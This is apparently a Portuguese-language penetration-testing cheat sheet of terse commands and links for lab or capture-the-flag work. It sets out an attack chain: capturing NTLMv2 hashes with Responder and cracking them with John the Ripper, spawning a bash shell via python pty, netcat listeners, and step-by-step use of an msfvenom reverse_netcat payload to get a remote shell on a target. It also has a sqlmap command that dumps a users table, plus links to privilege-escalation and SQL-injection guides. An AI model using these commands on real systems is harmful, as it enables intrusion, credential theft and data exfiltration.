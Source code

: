 - Windows
run
\\PastaQualquer

- Linux
cd /usr/share/responder/logs
Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt

sudo snap install john-the-ripper
passwd: \*\*\*\*
sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-IP.txt

##FIND
groups
grep 'sudo' /etc/group
sudo ls
sudo -i
cd /
find . -name file.txt
cat file.txt

python -c 'import pty:pty.spawn("/bin/bash");'
nc -vnlp 80
ls /usr/share/webshells/php

Gere o payload usando o comando msfvenom: msfvenom -p cmd/unix/reverse_netcat LHOST=ip LPORT=444
Copie a saída gerada pelo comando acima.
Faça login na máquina de destino via SSH ou Telnet.
Cole o payload copiado diretamente no terminal da máquina de destino.
Pressione Enter para executar o payload.
Na sua máquina local, inicie um listener netcat na porta especificada: nc -lnvp 444
ls
find . -name arquivo.txt
cat arquivo.txt

#Consultas externas
http://lab.awh.zdresearch.com/ = sqlmap -u http://lab.awh.zdresearch.com/chapter2/xvwa/vulnerabilities/sqli/ --data='item=&search=1' --batch -D xvwa -T users --dump
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/
https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html  (SMB Checklist Enumeration)
https://zhuanlan.zhihu.com/p/124246499
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
https://n00bie.medium.com/hacking-android-using-phonesploit-ffbb2a899e6
https://www.comparitech.com/net-admin/wireshark-cheat-sheet/
https://www.hackers-arise.com/post/2018/09/27/network-forensics-part-2-detecting-and-analyzing-a-scada-dos-attack
https://hashes.com/en/decrypt/hash
https://nvd.nist.gov/vuln-metrics/cvss#
https://intezer.com/blog/malware-analysis/elf-malware-analysis-101-initial-analysis/
https://xz.aliyun.com/t/4008
